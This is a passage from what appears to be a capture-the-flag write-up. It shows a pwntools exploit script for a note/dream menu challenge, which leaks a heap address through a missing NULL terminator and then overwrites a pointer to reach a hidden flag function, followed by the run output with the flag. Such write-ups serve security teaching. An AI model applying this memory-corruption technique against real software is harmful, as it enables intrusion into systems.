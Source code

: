 ```py
p.sendline(b"A"*16) # overwrite 16 As into it. No NULL byte added at end, this is a vuln in the src code
p.recvuntil(b"> ") 
p.sendline(b"3") # read note
p.recvuntil(b"note index to read: ")
p.sendline(b"0") # read note 0
p.recvuntil(b"A"*16)

fake_flag_addr = u64(p.recvline().rstrip() + b"\x00"*2)
real_flag_addr = fake_flag_addr + real_flag - fake_flag
print(f"dream_about_flag_real at 0x{hex(real_flag_addr)}")

p.recvuntil(b"> ")
p.sendline(b"1") # take note
p.recvuntil(b"note size: ")
p.sendline(b"24")
p.recvuntil(b"note content: ")
p.sendline(b"A"*16 + p64(real_flag_addr)) # 24 bytes
p.recvuntil(b"> ")
p.sendline(b"2") # erase note
p.recvuntil(b"note index to remove: ")
p.sendline(b"1")
p.recvuntil(b"> ")
p.sendline(b"4") # go back to menu

print("If debug use heap bins to check tcache block ty")

p.recvuntil(b"> ")
p.sendline(b"2") # start dreaming. dreams is currently NULL
p.recvuntil(b"> ")
p.sendline(b"1") # add dream
p.recvuntil(b"to have? ")
p.sendline(b"3") # 3 dreams which now uses the buffer
p.recvuntil(b"> ")
p.sendline(b"1") # add whatever dream

p.recvuntil(b"> ") # dream menu
p.sendline(b"1") # add dream
p.recvuntil(b"> ") # add which dream
p.sendline(b"2") # whatever

p.recvuntil(b"> ") # dream menu
p.sendline(b"2") # start dream to execute our modified payload
p.interactive()
```

```
[+] Opening connection to challs.nusgreyhats.org on port 32833: Done
dream_about_flag_real at 0x0x55b036535765
If debug use heap bins to check tcache block ty
[*] Switching to interactive mode
THWACK! THWACK! THWACK! THWACK! THWACK! ACE!......
...
oooooooooooooooooooooooooo, cute kdrama guy.......
...
and the flag is.............. grey{i_dreamt_about_the_flag_appearing_in_my_dreams}............
...
you woke up from your dream -- 'wow what a good dream!'

1) add a dream
2) start dreaming!
3) go back
> $
```